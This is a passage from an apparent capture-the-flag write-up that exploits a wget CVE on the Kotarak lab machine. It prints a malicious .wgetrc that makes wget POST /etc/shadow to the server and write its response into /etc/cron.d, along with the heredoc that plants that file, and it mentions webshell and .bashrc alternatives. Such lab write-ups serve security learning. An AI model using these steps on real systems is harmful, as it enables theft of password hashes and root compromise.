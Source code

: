 Especially in a `cron` scenario, the jobs typically run out of the running
user’s home directory. The ability to write arbitrary files in a home
directory is dangerous.

#### POC

There are many ways to exploit this vulnerability. I could drop a `.bashrc`
file and wait for someone to start a shell. If I thought perhaps the `wget`
was being run from a web directory, I could look at uploading a webshell.

There’s a proof of concept for this CVE on [exploitdb](https://www.exploit-
db.com/exploits/40064). It’s strategy is to write a Wget Startup file. Based
on the [priority](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-
Location.html) `wget` looks for these files, as long as there’s nothing in the
`/usr/local/etc/wgetrc` and the env variable `WGETRC` isn’t set, it will try
to load from `$HOME/.wgetrc`.

This fill will set arguments for `wget` that aren’t passed on the command
line. The POC uses two of these with the following `.wgetrc` file:

    
    
    post_file = /etc/shadow
    output_document = /etc/cron.d/wget-root-shell
    

This sets two
[options](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-
Commands.html):

  * `post_file`:

> Use POST as the method for all HTTP requests and send the contents of file
> in the request body. The same as ‘–post-file=file’.

  * `output_document`:

> Set the output filename—the same as ‘-O file’.

This POC will exploit over the course of two requests (so it’s targeted
against a process where `wget` is running on `cron`, which seems perfect for
Kotarak).

The first request is what is exploited by this exploit, to write the `.wgetrc`
file into the running home directory. The next time it goes to make the same
request, it will POST the shadow file, and then save the result into the
`/etc/cron.d` directory.

#### Run It

I’ll need multiple shells on the box, either by trigger the WAR file a few
times. I’ll work out of a directory in `/tmp`. In one shell, I’ll drop the
`.wgetrc` file:

    
    
    atanas@kotarak-dmz:/tmp/.0xdf$ cat <<_EOF_>.wgetrc                              
    > post_file = /etc/shadow
    > output_document = /etc/cron.d/wget-root-shell                                 
    > _EOF_  
    